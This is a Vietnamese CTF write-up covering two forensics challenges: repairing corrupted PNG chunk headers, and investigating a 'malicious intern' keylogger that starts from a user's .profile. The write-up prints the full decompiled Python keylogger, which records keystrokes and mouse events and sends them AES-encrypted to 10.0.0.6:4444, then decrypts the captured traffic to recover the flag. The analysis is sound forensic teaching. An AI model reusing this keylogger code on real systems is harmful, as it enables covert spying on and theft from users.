- Đầu tiên ta fix magic byte trước thông qua [đây](https://en.wikipedia.org/wiki/List_of_file_signatures).
- Thấy rằng magic byte file png là `89 50 4E 47 0D 0A 1A 0A` nên sửa chỗ này lại, tiếp theo là chunk IHdR sửa thành chunk IHDR
- Ta kiểm tra xem còn lỗi chỗ nào không bằng pngcheck
```
┌──(kali㉿kali)-[~/Downloads]
└─$ pngcheck -v 1.png 
zlib warning:  different version (expected 1.2.13, using 1.3.1)

File: 1.png (3597259 bytes)
  chunk IHDR at offset 0x0000c, length 13
    1800 x 1314 image, 32-bit RGB+alpha, non-interlaced
  chunk SRGB at offset 0x00025, length 1:  illegal (unless recently approved) unknown, public chunk
ERRORS DETECTED in 1.png
                                                                
```
- Chunk `SRGB` thay bằng `sRGB`    (cái này mọi người tự đổi sang hex nhé)
- Tiếp tục pngcheck
```
┌──(kali㉿kali)-[~/Downloads]
└─$ pngcheck -v 2.png
zlib warning:  different version (expected 1.2.13, using 1.3.1)

File: 2.png (3597259 bytes)
  chunk IHDR at offset 0x0000c, length 13
    1800 x 1314 image, 32-bit RGB+alpha, non-interlaced
  chunk sRGB at offset 0x00025, length 1
    rendering intent = perceptual
  chunk GAMA at offset 0x00032, length 4:  illegal (unless recently approved) unknown, public chunk
ERRORS DETECTED in 2.png
```
- Chunk GAMA tại offset 0x00032 lỗi tiếp => gAMA
```
──(kali㉿kali)-[~/Downloads]
└─$ pngcheck -v 3.png
zlib warning:  different version (expected 1.2.13, using 1.3.1)

File: 3.png (3597259 bytes)
  chunk IHDR at offset 0x0000c, length 13
    1800 x 1314 image, 32-bit RGB+alpha, non-interlaced
  chunk sRGB at offset 0x00025, length 1
    rendering intent = perceptual
  chunk gAMA at offset 0x00032, length 4: 0.45455
  chunk PHYs at offset 0x00042, length 9:  illegal critical, safe-to-copy chunk
ERRORS DETECTED in 3.png

```
- chunk PHYs => pHYs
```
┌──(kali㉿kali)-[~/Downloads]
└─$ pngcheck -v 4.png
zlib warning:  different version (expected 1.2.13, using 1.3.1)

File: 4.png (3597259 bytes)
  chunk IHDR at offset 0x0000c, length 13
    1800 x 1314 image, 32-bit RGB+alpha, non-interlaced
  chunk sRGB at offset 0x00025, length 1
    rendering intent = perceptual
  chunk gAMA at offset 0x00032, length 4: 0.45455
  chunk pHYs at offset 0x00042, length 9: 4724x4724 pixels/meter (120 dpi)
  chunk EXIf at offset 0x00057, length 14:  illegal critical, safe-to-copy chunk
ERRORS DETECTED in 4.png
```
- Chunk EXIf => eXIf
- Tiếp theo là IDAT, tất cả các chunk IDAT bị đổi thành IDaT nên ta phải sửa lại, vì có nhiều nên ta dùng script
```
def replace_bytes_in_file(file_path, old_bytes, new_bytes):
    # Chuyển đổi danh sách byte thành các đối tượng bytes
    old_bytes = bytes(old_bytes)
    new_bytes = bytes(new_bytes)

    # Đọc toàn bộ nội dung tệp vào một đối tượng bytes
    with open(file_path, 'rb') as file:
        content = file.read()

    # Thay thế tất cả các byte cũ bằng các byte mới
    modified_content = content.replace(old_bytes, new_bytes)

    # Ghi nội dung đã thay đổi vào tệp
    with open(file_path, 'wb') as file:
        file.write(modified_content)

# Đường dẫn đến tệp cần thay thế
file_path = '5.png'

# Các byte cần thay thế và thay thế bằng
old_bytes = [0x49, 0x44, 0x61, 0x54]
new_bytes = [0x49, 0x44, 0x41, 0x54]

# Gọi hàm để thực hiện thay thế
replace_bytes_in_file(file_path, old_bytes, new_bytes)
```
- Cuối cùng ta thu được flag 
- 
## Malicious intern
### Description 
- 
### Solution 
- Với bài này ta được cho thư mục / của hệ thống file linux, vì đề bài có đề cập đến việc bị dính ãm độc nên mình dùng công cụ clamAV để quét nhưng không có kết quả.
- Tìm bằng tay thì tại `home\lucius\.profile` thì mình thấy 1 file keylogger được thiết lập để tự động chạy.
```
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.
/usr/bin/keylogger &
# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
	. "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
```
- Truy cập vào `/usr/bin/keylogger` để xem con này nó như thế nào.
- Khi mình strings con này thì thấy nó có load `libpython3.8.so` vào trong, có thể đoán chắc đây là 1 file python
- 
- Mình sử dụng `pyinstxtractor.py` và `uncompyle6` để decomplie
```
┌──(kali㉿kali)-[~/pyinstxtractor]
└─$ python pyinstxtractor.py ~/Downloads/keylogger 
[+] Processing /home/kali/Downloads/keylogger
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 64918254 bytes
[+] Found 412 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_cryptography_openssl.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_pyqt5.pyc
[+] Possible entry point: pyi_rth_gdkpixbuf.pyc
[+] Possible entry point: pyi_rth_glib.pyc
[+] Possible entry point: pyi_rth_gio.pyc
[+] Possible entry point: pyi_rth_gi.pyc
[+] Possible entry point: keylogger.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.8 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: /home/kali/Downloads/keylogger

You can now use a python decompiler on the pyc files within the extracted directory
```

```
┌──(kali㉿kali)-[~/pyinstxtractor/keylogger_extracted]
└─$ uncompyle6 keylogger.pyc 
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 2.7.18 (default, Aug  1 2022, 06:23:55) 
# [GCC 12.1.0]
# Embedded file name: keylogger.py
import logging, os, platform, socket, threading, wave, pyscreenshot
from pynput import keyboard
from pynput import mouse
import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import struct, glob, io
SEND_REPORT_EVERY = 30
host = "10.0.0.6"
port = 4444

class KeyLogger:

    def __init__(self, time_interval):
        self.interval = time_interval
        self.log_keyboard = "KeyLogger Started..."
        self.log_mouse = "Mouse Started..."
        self.key = self.getKey()
        self.s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.s.connect((host, port))

    def getKey(self):
        return requests.get("https://raw.githubusercontent.com/HuyThang25/KCSC-TVV2024/main/key").text.encode("utf-8")

    def appendlog_mouse(self, string):
        self.log_mouse = self.log_mouse + string + "\n"

    def appendlog_keyboard(self, string):
        self.log_keyboard = self.log_keyboard + string

    def on_move(self, x, y):
        self.appendlog_mouse("Mouse moved to {} {}".format(x, y))

    def on_click(self, x, y, button, pressed):
        self.appendlog_mouse("Mouse {} {} to {} {} ".format("Pressed" if pressed else "Released", str(button), x, y))

    def save_data(self, key):
        try:
            current_key = " " + str(key.char) + " "
        except AttributeError:
            if key == key.space:
                current_key = "SPACE"
            else:
                if key == key.esc:
                    current_key = "ESC"
                else:
                    current_key = " " + str(key) + " "
        else:
            self.appendlog_keyboard(current_key)

    def send_data(self, message):
        cipher = AES.new(self.key, AES.MODE_CBC)
        ciphertext = cipher.encrypt(pad(message, AES.block_size))
        data = cipher.iv + ciphertext
        data_size = struct.pack("!I", len(data))
        self.s.sendall(data_size)
        self.s.sendall(data)

    def report_keyboard(self):
        self.send_data(("\n\n" + self.log_keyboard).encode("utf-8"))
        self.log_keyboard = "This is keyboard:\n\n"
        timer = threading.Timer(self.interval, self.report_keyboard)
        timer.start()

    def report_mouse(self):
        self.send_data(("\n\n" + self.log_mouse).encode("utf-8"))
        self.log_mouse = ""
        timer = threading.Timer(self.interval, self.report_mouse)
        timer.start()

    def system_information(self):
        hostname = socket.gethostname()
        ip = socket.gethostbyname(hostname)
        plat = platform.processor()
        system = platform.system()
        machine = platform.machine()
        return hostname + " - " + ip + " - " + plat + " - " + system + " - " + machine

    def run_mouse(self):
        mouse_listener = mouse.Listener(on_click=(self.on_click), on_move=(self.on_move))
        with mouse_listener:
            self.report_mouse()
            mouse_listener.join()

    def run_keyboard(self):
        keyboard_listener = keyboard.Listener(on_press=(self.save_data))
        with keyboard_listener:
            self.report_keyboard()
            keyboard_listener.join()

    def run(self):
        self.send_data(self.system_information().encode("utf-8"))
        t1 = threading.Thread(target=(self.run_keyboard))
        t2 = threading.Thread(target=(self.run_mouse))
        t1.start()
        t2.start()
        t1.join()
        t2.join()


keylogger = KeyLogger(SEND_REPORT_EVERY)
keylogger.run()

# okay decompiling keylogger.pyc
```
- Nhìn vào src của nó ta thấy rằng nó lắng nghe bàn phím và chuột sau đó encrypt để gửi lên 10.0.0.6:4444
- Dữ liệu được encrypt bằng key được tải từ github, tuy nhiên khi mình truy cập thì không có cái key nào cả
- 
- Theo dõi lịch sử commit của trang github này ta có thể lấy được key trước khi bị sửa
- 
- Key là `9cbf8152dee6895d65a959560502fc73`
- Bây giờ mình sẽ crawl dữ liệu từ wireshark về để biết hacker đã lấy cắp những gì.
- 
- Có 1 vài packet có len là 4 khi decrypt sẽ bị lỗi, mình xem lại src
```
    def send_data(self, message):
        cipher = AES.new(self.key, AES.MODE_CBC)
        ciphertext = cipher.encrypt(pad(message, AES.block_size))
        data = cipher.iv + ciphertext
        data_size = struct.pack("!I", len(data))
        self.s.sendall(data_size)
        self.s.sendall(data)
```
- Thấy rằng khi gửi data đầu tiên nó sẽ gửi size của data đó, sau đó mới gửi dữ liệu, nên ta sẽ chỉ lấy phần giữa các packet có len = 4 ra.
- Mình sẽ viết lệnh filter tất cả các dữ liệu sau đó sử lý bằng python
> tshark -r traffic.pcapng -Y "ip.dst==10.0.0.6  && tcp.port==4444" -Tfields -e data.data > data.txt
- Và đây là script xử lý 
```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import binascii

def decrypt_aes(ciphertext, key, iv):
    key = key.encode('utf-8')  # Chuyển đổi khóa từ chuỗi sang byte
    cipher = AES.new(key, AES.MODE_CBC, iv)  # Tạo đối tượng AES ở chế độ CBC
    
    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)
    
    # Loại bỏ padding
    try:
        decrypted_data = unpad(decrypted_data, AES.block_size)
    except ValueError as e:
        print("Padding không hợp lệ:", e)
        return None
    
    return decrypted_data.decode('utf-8')

with open("data.txt", "r") as file:
    key = '9cbf8152dee6895d65a959560502fc73'  # Khóa AES
    for line in file:
        line = line.strip()
        if len(line) != 8:  # Bỏ qua các dòng có độ dài 4
            try:
                # Chuyển IV và ciphertext từ hex sang bytes
                iv = binascii.unhexlify(line[0:32])  # 16 byte IV => 32 ký tự hex
                ciphertext = binascii.unhexlify(line[32:])  # Phần còn lại là ciphertext
                decrypted_text = decrypt_aes(ciphertext, key, iv)
                
                if decrypted_text:
                    print(decrypted_text)
            except (binascii.Error, ValueError) as e:
                # Bỏ qua nếu có lỗi trong quá trình giải mã
                print("Lỗi giải mã dòng:", e)
                continue
```
- Nhìn vào kết quả ta thấy tại keyboard có phần 1 của flag 
```
This is keyboard:

 m  o  u  s  e  Key.backspace  Key.backspace  Key.backspace  Key.backspace  Key.backspace  t  e  Key.right  Key.left  x  t SPACE e  i  Key.backspace  d  i  t  o  r  Key.enter  Key.shift  K  C  S  C  Key.shift  {  y  a  Key.backspace  4  g 

This is keyboard:

 i  Key.backspace  1  Key.shift  _  1  s  Key.shift  _  3  x  x  x  Key.backspace  Key.backspace  t  r  3  m  3  l  y  Key.shift  _  d  4  n  9  9  9  9  Key.backspace  Key.backspace  Key.backspace  3  r 
```
- Chỉnh sửa lại ta được : `KCSC{y4g1_1s_3xtr3m3ly_d4n93r`
- Phần 2 còn lại chỉ có thể nằm trong phần mouse
- Lại tiếp tục lọc và sử dụng python để xử lý
> tcp.dstport==4444 && frame.number>202 && frame.number < 226
- 
- Và đây là script 
```
import matplotlib.pyplot as plt
import time

# Đọc dữ liệu từ file
coordinates = []
pressed = []
released = []

with open('download.txt', 'r') as file:
    for line in file:
        parts = line.split()
        if "Mouse moved" in line:
            x = int(parts[-2])
            y = int(parts[-1])
            coordinates.append((x, y))
        elif "Mouse Pressed" in line:
            x = int(parts[-2])
            y = int(parts[-1])
            pressed.append((x, y))
        elif "Mouse Released" in line:
            x = int(parts[-2])
            y = int(parts[-1])
            released.append((x, y))

# Tạo cửa sổ vẽ
plt.ion()  # Bật chế độ tương tác
fig, ax = plt.subplots()
ax.set_title('Mouse Movements with Press and Release Events')
ax.set_xlabel('X Coordinate')
ax.set_ylabel('Y Coordinate')
ax.grid()

# Vẽ từng bước di chuyển chuột với nét mỏng
for i in range(1, len(coordinates)):
    x_values, y_values = zip(*coordinates[:i+1])
    ax.plot(x_values, y_values, color='black', marker='o', linewidth=0.5)  # Vẽ đường với độ dày nét mỏng
    plt.draw()
    plt.pause(0.1)  # Tạm dừng để tạo hiệu ứng vẽ từ từ

# Vẽ các sự kiện nhấn và thả chuột
if pressed:
    pressed_x, pressed_y = zip(*pressed)
    ax.scatter(pressed_x, pressed_y, color='red', label="Mouse Pressed", zorder=5)

if released:
    released_x, released_y = zip(*released)
    ax.scatter(released_x, released_y, color='blue', label="Mouse Released", zorder=5)

# Hiển thị toàn bộ biểu đồ sau khi hoàn thành
plt.legend()
plt.show()

# Tắt chế độ tương tác khi vẽ xong
plt.ioff()
```
- 
- Ảnh bị lật ngược nên hơi khó đọc, mình  sẽ lật nó lại cho dễ đọc 
- 
- Đọc được phần 2 là : `792024}`
> Flag : KCSC{y4g1_1s_3xtr3m3ly_d4n93r792024}